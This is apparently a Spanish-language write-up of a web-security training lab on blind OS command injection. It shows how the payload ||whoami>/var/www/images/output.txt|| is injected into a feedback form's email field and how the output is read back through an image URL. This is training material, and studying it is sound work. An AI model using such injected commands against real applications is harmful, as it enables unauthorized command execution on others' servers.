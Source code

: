 # 03 Lab: Blind OS command injection with output redirection

## Objetivo

> 
> 
> 
> This lab contains a blind OS command injection vulnerability in the feedback function.
> 
> The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:
> 
> ```
> /var/www/images/
> ```
> 
> The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.
> 
> To solve the lab, execute the `whoami` command and retrieve the output.
> 

## Solución

> Suponemos que la funcionalidad de feedback se realiza usando el siguiente script:
> 

```bash
mail -s "This site is great" -a From:peter@normal-user.net feedback@vulnerable-website.com
```

1. Evaluamos la sección de Feedback a travez del repeater, los campos  `email`
    
    ![image.png](03%20Lab%20Blind%20OS%20command%20injection%20with%20output%20redi%2017efab5460ec81c6b31bef9a4faef6ae/image.png)
    
2. Añadimos `||whoami>/var/www/images/output.txt||` en el campo `email` , con el espacio an inicio, para añadir una instrucción extra.
    
    Quedando de la siguiente manera la ejecución, ocasionando la escritura de un archivo, recordemos que debemos elegir una dirección u archivo correcto, ademas que sabemos, el directorio tiene permiso de escritura:
    
    ```bash
    mail -s "This site is great" -a From:peter@normal-user.net feedback@vulnerable-website.com **||whoami>/var/www/images/output.txt||** 
    ```
    
    ![image.png](03%20Lab%20Blind%20OS%20command%20injection%20with%20output%20redi%2017efab5460ec81c6b31bef9a4faef6ae/image%201.png)
    
    ![image.png](03%20Lab%20Blind%20OS%20command%20injection%20with%20output%20redi%2017efab5460ec81c6b31bef9a4faef6ae/image%202.png)
    
    ![image.png](03%20Lab%20Blind%20OS%20command%20injection%20with%20output%20redi%2017efab5460ec81c6b31bef9a4faef6ae/image%203.png)
